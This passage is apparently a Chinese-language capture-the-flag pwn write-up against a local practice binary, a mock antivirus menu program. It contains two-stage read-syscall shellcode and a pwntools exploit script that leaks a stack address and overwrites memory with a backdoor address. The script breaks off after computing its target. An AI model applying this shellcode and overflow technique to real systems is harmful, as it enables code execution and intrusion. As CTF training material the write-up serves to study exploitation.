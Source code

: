 ```py
shellcode1 = '''
xor rdi,rdi
xchg rsi,rdx
add rsi, 0xc
syscall
'''
```
一开始 rdx 是我们 shellcode 的栈地址，作为 read syscall 的 size 参数会挂掉，而 rsi 是 0x6046a0 的一个 bss 段值，所以将其交换     
通过 add rsi,0xc 我们直接将第二段 shellcode 读入到第一段 shellcode 的后面从而接下来执行，省去一条 jmp 指令的空间     

### exp
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process("./ASU1")
libc = ELF("./libc.so.6")
def add_files(cnt,names,contents):
    p.recvuntil("请选择操作: ")
    p.sendline("8")
    p.recvuntil("需要添加几组模拟文件数据:\n")
    p.sendline(str(cnt))
    for i in range(cnt):
        p.recvuntil("请输入文件名称\n")
        p.send(names[i])
        p.recvuntil("请输入文件内容\n")
        p.send(contents[i])

def display_files():
    p.recvuntil("请选择操作: ")
    p.sendline("9")

def add_signal(id,name,signature):
    p.recvuntil("请选择操作: ")
    p.sendline("1")
    p.recvuntil("输入特征码 ID: ")
    p.sendline(str(id))
    p.recvuntil("输入病毒名称: ")
    p.send(name)
    p.recvuntil("输入特征码值: ")
    p.send(signature)

def display_sigdb():
    p.recvuntil("请选择操作: ")
    p.sendline("5")
    p.recvuntil("输入特征码值查询感染文件: ")
    p.sendline("123")

# need stack leak first 输出栈上的残留值
backdoor = 0x400F56
payload = [b"a"*9] # 15
payload = payload + [b"bbbbbb\x00"] # 22
payload = payload + [b"b"*8] # 37
payload = payload + [b"b"*3] # 52
payload = payload + [b"bbb\x00"] # 56
payload = payload + [p64(backdoor)]

add_signal(233,b"b"*8,b"b"*0x28+b"aa")
display_sigdb()
# stack leak 0x7fff8adf8f40  0x7fff8adedcc8
p.recvuntil("bbaa")
stack_leak = u64(p.recv(6).ljust(8,b"\x00"))
success("stack: "+hex(stack_leak))
target = stack_leak - 0xb278
```